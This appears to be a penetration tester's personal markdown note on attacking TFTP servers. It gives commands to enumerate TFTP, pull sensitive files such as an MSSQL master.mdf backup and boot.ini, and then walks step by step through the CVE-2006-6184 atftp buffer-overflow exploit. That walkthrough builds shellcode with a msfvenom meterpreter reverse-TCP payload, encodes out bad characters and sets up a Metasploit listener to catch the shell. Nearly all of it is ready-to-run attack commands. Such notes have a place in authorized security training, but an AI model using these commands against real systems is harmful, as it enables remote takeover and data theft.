 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
sudo nmap -sU -p69 --script tftp-enum $TARGET
```

#### tftp.py

```bash - kali
pip install tftpy
```

```python - kali
import tftpy
client = tftpy.TftpClient("$KALI", 69)
client.download("C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\Backup\master.mdf", "/home/kali/Desktop/$TARGET/master.mdf", timeout=5)

#client.upload("filename to upload", "/local/path/file", timeout=5)
```

#### atftp
```bash - kali
sudo apt install atftp
```

```bash - kali
atftp -g -r "C:\boot.ini" $TARGET
```

If you are after a path that has spaces, try using [[Abbreviated dir]]'s.

https://github.com/shauntdergrigorian/cve-2006-6184/blob/master/atftp.py

==READ THE EXPLOIT STEPS VERY CAREFULLY!!==

1.) Enter the following to create a hex file of the amount that needs to be subtracted from the stack pointer (3500):
```bash - kali
perl -e 'print "\x81\xec\xac\x0d\x00\x00"' > stackadj
```

2.) Next, use the following command to create a staged meterpreter shell payload:
```bash - kali
msfvenom -p windows/meterpreter/reverse_nonx_tcp LHOST=[your IP] LPORT=[your port] R > payload
```

3.) Then, combine the two files you just created.
```bash - kali
cat stackadj payload > shellcode
```

4.) Finally, let's eliminate the bad characters.
```bash - kali
msfvenom -p generic/custom PAYLOADFILE=./shellcode -b "\x00" -e x86/shikata_ga_nai -f python
```

Enter the output as the value of the "payload" variable. You may need to run this exploit a few times for it to work.

![[Pasted image 20220406211356.png | 1200]]

#### Metasploit Listener

```bash - kali
sudo msfdb run
```

```bash - kali
use exploit/multi/handler
```

```bash - kali
set PAYLOAD windows/meterpreter/reverse_nonx_tcp
```

```bash - kali
set ExitOnSession false
```

```bash - kali
set AutoRunScript post/windows/manage/migrate
```

```bash - kali
set lhost
```

```bash - kali
set lport
```

```bash - kali
exploit -j
```

```bash - kali
python atftp.py $TARGET 69 $KALI $OS-VERSION
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
